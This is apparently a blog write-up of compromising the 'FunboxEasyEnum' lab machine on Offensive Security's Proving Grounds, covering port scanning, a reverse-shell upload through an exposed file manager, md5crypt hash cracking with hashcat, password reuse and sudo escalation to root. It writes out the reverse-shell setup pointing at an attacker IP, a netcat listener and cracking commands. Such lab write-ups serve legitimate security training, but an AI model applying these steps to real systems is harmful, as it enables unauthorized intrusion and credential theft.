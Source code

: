 ```yaml
---
title: FunboxEasyEnum Writeup
author: Eno
date: 2021-06-01 08:30am
categories: [writeup, offsec, proving grounds]
tags: [writeup, offsec, proving grounds]
math: true
mermaind: true
image: /assets/img/pg/provinggrounds.png
---
```


This is my first <a href="https://www.offensive-security.com/">Offensive Security</a> writeup of a machine on their <a href="https://www.offensive-security.com/labs/">Proving Grounds</a> platform. 
<br>
I signed up for the free labs and managed to do 2 easy machines and get this writeup done before the daily 3 hour timer expired.

## Enumeration

Starting with Rustscan with NMAP. I have cleaned up the output to just show the relevant info.

```bash
└─$ rustscan -a 192.168.245.132 -u 5000 -- -A -sC -sV                                 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/mooncake/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.245.132:22
Open 192.168.245.132:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 07:41 SAST
Scanned at 2021-05-31 07:41:48 SAST for 15s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3a6aFbaxLEn4AMDXmMVZdNfaQuJQ/AcPHffagHb77o1FmSe+6tlCRHMil9l4qJILffRQHkdbQJtrlBk52V35SHfPp8x89B+Pfv7slkKxXE7fkZBIJuUjHF+YAoSakOtY72d7o6Bet2AwCijSBzZ1bkVC4i/L9euG2Oul5oA2iFlnzwYjrhki6MFNFJvvyoOqcJr1zS+w4W0NO1RexielQsxeUG3khrfVYts5kWFQPr39tk52zRZ/gpAKjR00XN4N5mi/mBjvvgnlVX4DNeyxh5r+E5sdLGzJ0Vk8JzjDW7eK70kv2KmVCFSJNceUjfaIV+K4z9wFoy6qZte7MxhaV
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJi5En616tTVEM4UoE0AVaXFn6+Rhike29q/pKZh5nIPQfNr9jqz2II9iZ5NZCPwsjp3QrsmTdzGwqUbjMe0c=
|   256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO+CVl8CiYP8L+ni0CvmpS7ywOiJU62E3O6L8G2n/Yov
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.17 seconds
```

With only ports 22 and 80 open we fire up Feroxbuster and find the following:

![Desktop View](/assets/img/pg/funboxeasyenum/Feroxbusterminiphp.png)

We found http://192.168.145.132/mini.php
<br>
Browsing to it and I see you can upload files.

![Desktop View](/assets/img/pg/funboxeasyenum/MiniShellPHP.png)

## Foothold

We grab the php-reverse-shell.php on our Kali machine and rename it to shell.php

```bash
-$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

We change the following in the file to match our VPN ip as well as the port we are going to use to listen on for a reverse shell.

```bash
$ip = '192.168.49.245';  // CHANGE THIS
$port = 9998;       // CHANGE THIS
```

In another terminal we start a netcat listener.

```bash
$ nc -lvnp 9998
listening on [any] 9998 ...
```
We then browse back to http://192.168.245.132/mini.php and upload the shell.php

![Desktop View](/assets/img/pg/funboxeasyenum/Shell upload.png)

Once uploaded, it showed up in the list.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell filed uploaded.png)

We now have to change the permissions to execute otherwise the webserver will not be able to execute the php file to run our reverse shell. We changed the permissions to 0777. Drastic I know.

![Desktop View](/assets/img/pg/funboxeasyenum/Shellfilepermissions.png)

![Desktop View](/assets/img/pg/funboxeasyenum/Shellfilepermissionschange.png)

Once done, browse to http://192.168.245.132/shell.php
<br>
We then received the shell in our netcat listener window.

![Desktop View](/assets/img/pg/funboxeasyenum/ReverseShell.png)

## local flag

We first have to get an interactive shell, so we use the python method.

```bash
$ python3 -c  'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ 
```

We browse to the www-data home directory and see the following.


![View-Desktop](/assets/img/pg/funboxeasyenum/Firstflag.png)

The proof.txt file! Easy win without having to enumerate anywhere else on the machine.

Unfortunately we are only www-data and still need to get to root.

## User Escalation

Let us see what users are on the machine.

![Desktop-View](/assets/img/pg/funboxeasyenum/Passwdfile.png)

We find a hash for the oracle user.
<br>
Let's identify the type of hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/IdentifyHash.png)

<br>
Let us check [hashcat examples](https://www.google.com/search?client=firefox-b-d&q=hashcat+examples) to verify.
<br>
As we can see it's a md5Crypt hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcatexamples.png)

Let's crack it.

```bash
hashcat -m 500 oracle.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcatcracked.png)

Hash cracked.
<br>
We try to ssh as the oracle user but this didn't work but doing a su to the user worked.
<br>
We upload LinPEAS.sh to find anything useful.

![Desktop-View](/assets/img/pg/funboxeasyenum/linpeasupload.png)

LinPEAS didn't give much but we did find the following users and only the user karla was interesting as this user seems to have much more access on the system than the others.

![Desktop-View](/assets/img/pg/funboxeasyenum/Usersonbox.png)

Further enumeration was needed. I remembered seeing phpMyAdmin from Feroxbuster. I searched for phpMyAdmin config file and found the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/phpmyadminconfig.png)

Could this password be reused for karla? One way to try.

![Desktop-View](/assets/img/pg/funboxeasyenum/KarlaSSH.png)

Success.

## Priviledge Escalation

As we saw the user karla was part of the sudoers group, we immediately check what sudo commands can be run.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karlasudo.png)

Seems like karla is allowed to run all commands on the system while using sudo.
<br>
We can simply just get a bash shell by running the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/KarlaPrivsec.png)

## proof flag

Let's go check the root directory for the loot.

![Desktop-View](/assets/img/pg/funboxeasyenum/SecondFlag.png)

